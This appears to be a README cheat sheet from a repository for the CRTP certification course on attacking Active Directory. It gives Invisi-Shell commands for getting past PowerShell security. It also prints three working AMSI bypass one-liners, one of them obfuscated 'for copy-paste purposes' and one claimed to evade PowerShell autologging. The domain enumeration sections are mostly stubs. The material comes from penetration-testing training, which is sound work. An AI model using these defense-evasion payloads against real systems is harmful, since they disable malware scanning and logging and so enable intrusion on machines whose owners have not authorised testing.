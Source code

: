 # CRTP_Skid
Commands and reference material useful for the CRTP course and attacking Active Directory in general.

- [CRTP AD Attacks](#CRTP-Skid)
  - [Shell Prep & Defense Evasion](#Shell-Prep-&-Defense-Evasion)  
    - [Invisi-Shell](#Invisi-Shell)
    - [AMSI Bypass](#AMSI-Bypass)
  - [Domain Enumeration](#Domain-Enumeration)  
    - [Powerview](#Powerview)
      - [Domain](#Domain)
      - [Users & Groups](#Users-&-Groups)
    - [AD PowerShell Module](#AD-Module)

## Shell Prep & Defense Evasion

#### Invisi-Shell (https://github.com/OmerYa/Invisi-Shell)
Invisi-Shell is used in the labs to bypass PowerShell security features by hooking .NET assemblies. Invisi-Shell a batch file for execution (two batch files dependant on current privilege level) that reference the invisi-shell DLL. Note - Invisi-shell may break certain functionality of certain programs run within shell.
```
C:\Path\RunWithRegistryNonAdmin.bat 
C:\Path\RunWithPathAsAdmin.bat
```
#### AMSI Bypass 

#### ‘Plain’ AMSI bypass example:
```
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)

```

#### Obfuscation example for copy-paste purposes:
```
sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )

```

#### Another bypass, which is not detected by PowerShell autologging:
```
[Delegate]::CreateDelegate(("Func``3[String, $(([String].Assembly.GetType('System.Reflection.Bindin'+'gFlags')).FullName), System.Reflection.FieldInfo]" -as [String].Assembly.GetType('System.T'+'ype')), [Object]([Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')),('GetFie'+'ld')).Invoke('amsiInitFailed',(('Non'+'Public,Static') -as [String].Assembly.GetType('System.Reflection.Bindin'+'gFlags'))).SetValue($null,$True)
```
## Domain Enumeration 
#### Powerview 
```
```
#### Active Directory PowerShell Module
Microsofts [AD PowerShell](https://docs.microsoft.com/en-us/powershell/module/activedirectory/?view=windowsserver2022-ps) module can also be used for domain enumeration. 
